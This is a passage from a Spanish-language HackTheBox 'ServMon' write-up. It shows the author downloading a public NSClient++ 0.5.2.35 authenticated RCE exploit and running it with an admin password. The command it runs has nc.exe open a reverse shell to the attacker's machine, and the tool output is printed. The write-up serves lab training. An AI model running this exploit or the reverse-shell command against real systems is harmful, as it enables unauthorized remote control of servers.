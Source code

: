 Ya estamos dentro de la máquina como `nt authority\system` y podemos visualizar la flag (root.txt).

Probando el otro exploit que encontramos, nos dice que es un script en python3; por lo tanto lo descargamos en nuestra máquina.

```bash
❯ searchsploit -m json/webapps/48360.txt
  Exploit: NSClient++ 0.5.2.35 - Authenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48360
     Path: /usr/share/exploitdb/exploits/json/webapps/48360.txt
File Type: Python script, ASCII text executable

Copied to: /home/k4miyo/Documentos/HTB/ServMon/exploits/48360.txt


❯ mv 48360.txt nsclient.py
```

Ahora si lo ejecutamos, vemos que nos pide algunos parámetros.

```bash
❯ python3 nsclient.py
usage: NSClient++ 0.5.2.35 Authenticated RCE [-h] [-t [target]] [-P [port]] [-p [password]] [-c [command]]

optional arguments:
  -h, --help     show this help message and exit
  -t [target]    Target IP Address.
  -P [port]      Target Port.
  -p [password]  NSClient++ Administrative Password.
  -c [command]   Command to execute on target
```

Ahora, como nos solicita la contraseña; es posible que el script se loguee en el servidor; por lo tanto necesitamos tener nuestro **Local Port Forwarding** y con el parámetro `-c` nos dice que recibe comandos para ejecutar a nivel de sistema; esto indica que podríamos subir nuestro archivo `nc.exe` a cualquier ruta donde tengamos permisos y con el exploit llamarlo para entablarnos una reverse shell. 

En este caso ya tenemos el archivo `nc.exe` en `C:\Temp`, así que nos ponemos en escucha por el puerto 443 y ejecutamos el exploit:

```bash
❯ python3 nsclient.py -t 127.0.0.1 -P 8443 -p "ew2x6SsGTxjRwXOT" -c "C:\Temp\nc.exe -e cmd 10.10.14.27 443"
[!] Targeting base URL https://127.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: xdozKLVGdAG)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
[!] Timeout exceeded. Assuming your payload executed . . .
```
